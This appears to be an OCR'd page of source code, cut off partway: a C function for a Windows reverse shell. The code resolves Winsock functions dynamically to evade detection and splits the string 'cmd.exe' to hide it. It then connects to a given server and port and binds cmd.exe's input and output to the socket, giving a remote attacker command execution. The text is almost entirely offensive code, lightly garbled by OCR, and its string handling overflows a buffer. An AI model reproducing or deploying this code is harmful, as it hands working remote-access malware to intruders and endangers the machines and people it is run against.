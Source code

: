 > **typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);**

> **typedef int(WSAAPI* WSACLEANUP)(void);**

> **void runn(char* serv, int Port) {**

> **HMODULE hws2\_32 = LoadLibraryW(L”ws2\_32");**

> **WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2\_32, “WSAStartup”);**

> **WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2\_32, “WSASocketA”);**

> **INET\_ADDR myinet\_addr = (INET\_ADDR) GetProcAddress(hws2\_32, “inet\_addr”);**

> **HTONS myhtons = (HTONS) GetProcAddress(hws2\_32, “htons”);**

> **WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2\_32, “WSAConnect”);**

> **CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2\_32, “closesocket”);**

> **WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2\_32, “WSACleanup”);**

> **SOCKET S0;**

> **struct sockaddr\_in addr;**

> **WSADATA version;**

> **myWSAStartup(MAKEWORD(2,2), &amp;version);**

> **S0 = myWSASocketA(AF\_INET, SOCK\_STREAM, IPPROTO\_TCP, 0, 0, 0);**

> **addr.sin\_family = AF\_INET;**

> **addr.sin\_addr.s\_addr = myinet\_addr(serv);**

> **addr.sin\_port = myhtons(Port);**

> **if (myWSAConnect(S0, (SOCKADDR\*)&amp;addr, sizeof(addr), 0, 0, 0, 0)==SOCKET\_ERROR) {**

> **myclosesocket(S0);**

> **myWSACleanup();**

> **} else {**

> **char p1\[] = “cm”;**

> **char p2\[]=”d.exe”;**

> **char* p = strcat(p1,p2);**

> **STARTUPINFO sinfo;**

> **PROCESS\_INFORMATION pinfo;**

> **memset(&amp;sinfo, 0, sizeof(sinfo));**

> **sinfo.cb = sizeof(sinfo);**

> **sinfo.dwFlags = (STARTF\_USESTDHANDLES | STARTF\_USESHOWWINDOW);**

> **sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) S0;**

> **CreateProcess(NULL, p, NULL, NULL, TRUE, 0, NULL, NULL, &amp;sinfo, &amp;pinfo);**
